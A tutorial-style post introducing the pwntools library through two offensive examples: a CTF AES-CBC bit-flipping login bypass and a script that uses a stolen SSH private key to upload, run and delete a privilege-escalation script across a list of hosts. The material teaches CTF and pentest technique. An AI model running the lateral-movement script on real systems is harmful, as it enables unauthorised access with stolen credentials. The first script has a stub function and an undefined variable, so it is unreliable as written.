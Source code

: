 ```yaml
---
title: Pwntools
---
```


## What is this about?
Connect, do stuff, pwn. It's easy right?
Well this lib/framework makes it even easier since you won't have to think about what is going on around and if you socket is working and, "oh noes my try except is messing with stuff!"

Simplifying automation with one-liners so you can concentrate on actually pwning stuff instead of looking for bribes of info on how to fix your bug and why it's not gonna work because you're running that v1.23.45-Whiskey-Tango-Foxtrot, which doesn't support that command on that particular environment because *reasons*.

Link: [https://github.com/Gallopsled/pwntools](https://github.com/Gallopsled/pwntools)

## More examples, less talk plz
Ok, sure!

### AES CBC bit flipping attack

#### The story
Long story short, you can modify a message encrypted with AES CBC mode, and if you know the cleartext you can modify specific parts of the message. If you need the math and theory behind this, there are plenty of websites that have that info, I'm staying on the "how to exploit it" not the "why can it be exploited here".	

So lets say you need to alter something on the nth block of a message with n > 0 (yeah you can't change the IV on the server to match your stuff that would be too easy). All you need to do is follow these steps:

Cn = the nth block of the encrypted message
Pn = the nth block of the plaintext
MPn = modified nth block of the plaintext

* You want to modify Pn
* Do your bit flipping on C(n-1)
* Get the modified P(n-1), which should be trash
* Repair P(n-1) by doing C(n-2) = MP(n-1) XOR P(n-1)
* Repeat until n = 1 (yeah IV = 0 so you can't change it)

Now, for the sake of simplicity, we won't need to "fix" anything in the following example and we'll keep the focus on the lib...
This is a common setup for CTFs, you send a message, the server will encrypt and send you that message back and you have to flip stuff around to bypass something and send it back modified to get the flag.

Lets say you can't send "admin" in your request, but connecting as "admin" gives you the flag. And lets say that the complete message exchanged is *remote-username=X&password=Y* with X and Y being your input.

#### The code example

```python
from pwn import *
import binascii

HOST = "127.0.0.1"
PORT = "80"

def flip_bit(message, position):
    #Do ya thing and return the new message

def exploit_it():
    r = remote(HOST, PORT)
    r.recvuntil("username: ")
    r.sendline("bdmin")
    r.recvuntil("password: ")
    r.sendline("EpicPass!!")
    r.recvuntil("Ciphertext: ")
    returned_ciphertext = r.recvline().strip().split()[0].decode("utf-8")
    bitflipped = flip_bit(leaked_ciphertext,1)
    r.recvuntil("enter ciphertext: ")
    r.sendline(bitflipped)

if __name__ == "__main__":
    exploit_it()
```

BOOM, *remote-username=* gets nuked due to bit flipping (see what I did there with the message length, eh?), but who cares since you are sending *admin* and not *bdmin* and you can get your flag! If you're not then you might want to look a little bit closer at what bit flipping does to the ciphertext!

#### Ok cool hax, but what am I getting out of it?
The setup to exchange a message with a server is built with 3 lines only:

```python
r = remote(HOST, PORT)
r.recvuntil("username: ")
r.sendline("bdmin")
```
No setting up stuff, no reading through the messages or splitting and matching text, it's already done, which means you won't have to lose 5 mins each time with your requests!


### Auto SSH privesc checker.

#### The story
You're doing your standard internal pentest stuff, you nuked a dev's machine and ran off with his private SSH key. Now you're feeling frisky and want to check which machines he has access to and auto run a privesc check on those machines because doing it by hand is slow af and you have better things to do!

Simple steps!

* Try to connect to the machine with the stolen private key 
* Get your privesc script on the machine in /tmp
* Run the script
* Return the output to you computer
* Remove your script from the machine
* Repeat on the next machine

#### The code example

```python
from pwn import *	

def exploit_it(ip_to_test):
    s = ssh(host = ip_to_test, user = 'pwndev', keyfile = '/path/to/private-key') #You can also give it the key if you want
    if s.connected() :
        s.put("/path/of/local/privesc.sh", remote="/tmp/privesc.sh")
        s.run('chmod 755 /tmp/privesc.sh')
        print(s.run_to_end("/tmp/privesc.sh"))
        s.run('rm /tmp/privesc.sh')
        s.close()

if __name__ == "__main__":
    ip_list = [] #That list of IP you need to check
    for ip_to_test in ip_list:
    	try:
            exploit_it(ip_to_test)
        except: #something weird happened
        	pass
```
Then step back, relax and wait for results to flood your screen!

#### Ok cool hax, but what am I getting out of it?
With a basic autopwn/privesc script you can now automate checking stuff on servers and which ones should be targeted first. Sure you could do the same with some bash script, but as a "oneline per action and nothing to setup before" you might need some extra expertise and spend more time on it.

The bonus part is that there is an *interactive* mode in the pwn lib, which allows you to type stuff in and that gets pipes to whatever is on the other end. This means that you can run your auto stuff and then script the part where you check if you should interact directly with a machine depending on your privesc returns. Now you're just one fork + exec away from a new term window with a handle to that machine on it. ;)
